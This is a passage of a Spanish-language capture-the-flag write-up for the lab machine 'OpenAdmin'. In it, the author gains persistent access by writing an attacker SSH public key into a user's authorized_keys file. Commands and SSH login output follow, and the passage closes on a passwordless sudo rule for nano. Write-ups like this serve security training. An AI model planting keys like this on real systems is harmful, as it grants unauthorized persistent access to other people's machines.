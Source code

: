Escribiremos en el archivo `/home/joanna/.ssh/authorized_keys` nuestra clave pública `SSH` para ganar acceso al equipo como el usuario `joanna` mediante `SSH` sin proporcionar credenciales.

```bash
joanna@openadmin:/var/www/internal$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB30SsUFMFi9+gBGbURaDWPr6LcsZ7seEWZgAtRqGLv9 kali@kali' > /home/joanna/.ssh/authorized_keys
joanna@openadmin:/var/www/internal$ cat /home/joanna/.ssh/authorized_keys
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB30SsUFMFi9+gBGbURaDWPr6LcsZ7seEWZgAtRqGLv9 kali@kali
```

Probamos de autenticarnos con el usuario `joanna` conectándonos mediante `SSH` al equipo, finalmente logramos el acceso correctamente. Ejecutaremos un `export TERM=xterm` para poder realizar `Ctrl+L`.

```bash
❯ ssh joanna@10.10.10.171
The authenticity of host '10.10.10.171 (10.10.10.171)' can't be established.
ED25519 key fingerprint is SHA256:wrS/uECrHJqacx68XwnuvI9W+bbKl+rKdSh799gacqo.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.171' (ED25519) to the list of known hosts.
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Mar  7 06:00:55 UTC 2025

  System load:  0.0               Processes:             186
  Usage of /:   31.4% of 7.81GB   Users logged in:       1
  Memory usage: 11%               IP address for ens160: 10.10.10.171
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

39 packages can be updated.
11 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Jul 27 06:12:07 2021 from 10.10.14.15
joanna@openadmin:~$ export TERM=xterm
```

Ahora si ejecutamos `sudo -l`, ya no nos muestra el mensaje de error que vimos anteriormente. Al comprobar si este usuario dispone depermisos de `sudoers`, nos encontramos que el usuario puede ejecutar como `sudo` sin proporcionar credenciales el binario`/bin/nano` sobre el archivo ubicado en `/opt/priv`.
